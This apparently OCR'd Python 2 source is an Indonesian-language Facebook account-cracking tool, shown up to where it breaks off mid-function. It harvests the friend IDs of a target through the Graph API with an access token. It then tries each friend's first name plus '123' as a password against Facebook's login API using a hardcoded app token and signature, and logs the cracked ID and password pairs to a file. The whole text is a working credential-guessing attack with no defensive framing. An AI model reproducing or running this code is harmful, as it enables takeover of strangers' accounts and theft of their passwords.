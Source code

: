 #### PILIH INDONESIA ####
def pilih_indo():
	teak = raw_input('\033[0;97m   >\033[0;97m ')
	if teak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_indo()
	elif teak =="1":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif teak =="2":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		idt = raw_input("\033[0;97m   • \033[0;97mID Public/Teman \033[0;97m:\033[0;97m ")
		try:
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			sp = json.loads(pok.text)
			print "\033[0;97m   •\033[0;97m Nama \033[0;97m:\033[0;97m "+sp["name"]
		except KeyError:
			print "\033[0;97m   ! ID public/teman tidak ada"
			raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
			crack_indo()
		except requests.exceptions.ConnectionError:
			print '\033[0;97m   ! Tidak ada koneksi'
			Exit()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif teak =="0" or teak =="00":
		crack_teman()
	else:
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_indo()
	
	print '\033[0;97m   • \033[0;97mJumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	
### MAIN INDONESIA ###
	def main(arg):
		global CP,oks
		em = arg
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			an = requests.get('https://graph.facebook.com/'+em+'/?access_token='+toket)
			v = json.loads(an.text)
			pw = v['first_name'].lower()+'123'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			xo = json.load(data)
			if 'access_token' in xo:
				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw
				oke = open('done/indo.txt', 'a')